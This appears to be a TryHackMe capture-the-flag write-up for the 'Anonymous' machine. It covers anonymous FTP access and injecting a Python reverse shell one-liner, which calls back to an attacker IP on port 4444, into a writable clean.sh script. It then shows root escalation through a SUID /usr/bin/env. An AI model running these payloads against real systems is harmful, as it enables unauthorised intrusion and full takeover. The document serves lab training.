# Anonymous - Enumeration & Exploitation

## Machine Information

- Target Machine: `Anonymous`
- Platform: [TryHackMe](https://tryhackme.com/?utm_source=chatgpt.com)



---

## Initial Enumeration

```bash
nmap -sV -sC -T4 10.49.183.229
```

- Performed an initial service enumeration scan against the target system.
- Identified multiple open ports and services.
- Detected:
  - Anonymous FTP login enabled
  - SMTP service running
  - Additional accessible shares
- Discovered image files which appeared to be decoys.

- Prioritized FTP enumeration based on accessible anonymous login.



---

## Anonymous FTP Login

```bash
ftp 10.49.183.229
```

Username:

```text
ftp
```

Password:

```text
ftp
```

- Successfully authenticated to the FTP service using anonymous credentials.
- Enumerated available files on the target system.

- Identified the following files:
  - `clean.sh`
  - `removed_files.log`
  - `to_do.txt`



---

## Downloading Files from FTP

```bash
mget *
```

- Downloaded all accessible files from the FTP server for offline inspection and analysis.



---

## Reverse Shell Injection

- Inspected the downloaded files and identified that `clean.sh` could potentially be modified and executed by the target system.
- Inserted a Python reverse shell payload into the script.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.128.186",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

- Modified the attacker IP address to match the local attacking machine.



---

## Additional File Inspection

- Inspected the remaining files:
  - `removed_files.log`
  - `to_do.txt`

- No useful or sensitive information was identified inside the remaining files.



---

## Netcat Listener Setup

```bash
nc -lvnp 4444
```

- Started a Netcat listener on the same port specified in the reverse shell payload to receive the incoming connection.



---

## Uploading Modified File

```bash
put clean.sh
```

- Uploaded the modified `clean.sh` file back to the FTP server.



---

## Reverse Shell Access

```bash
whoami
```

- Successfully received a reverse shell connection from the target system.
- Identified the compromised user as:
  - `namelessone`

- Enumerated accessible files and directories.
- Retrieved the user flag from:
  - `user.txt`



---

## Privilege Escalation Enumeration

```bash
find / -perm -u=s -type f 2>/dev/null
```

### Command Breakdown

- `find /`
  - Search from the root directory.

- `-perm -u=s`
  - Identify files with the SUID bit enabled.

- `-type f`
  - Search only for regular files.

- `2>/dev/null`
  - Suppress permission denied errors.

- Enumerated binaries capable of running with elevated privileges.



---

## Identifying Exploitable Binary

- Identified the following SUID-enabled binary:

```text
/usr/bin/env
```

- Determined that the binary could potentially be abused for privilege escalation.
- Verified exploitation techniques using:
  - GTFOBins



---

## Privilege Escalation Using GTFOBins

- Reviewed the GTFOBins technique for abusing the `env` binary when executed with SUID permissions.

```bash
/usr/bin/env /bin/sh -p
```

### Explanation

- `env`
  - Linux utility used to execute programs within modified environments.

- `/bin/sh -p`
  - Spawns a shell while preserving elevated privileges.

- Since the binary executed with SUID permissions, the spawned shell inherited root privileges.



---

## Root Access

- Successfully escalated privileges from the `namelessone` user to the root user.



---

## Root Flag Discovery

```bash
cd /root
ls
```

- Navigated to the `/root` directory.
- Retrieved the `root.txt` flag from the target system.


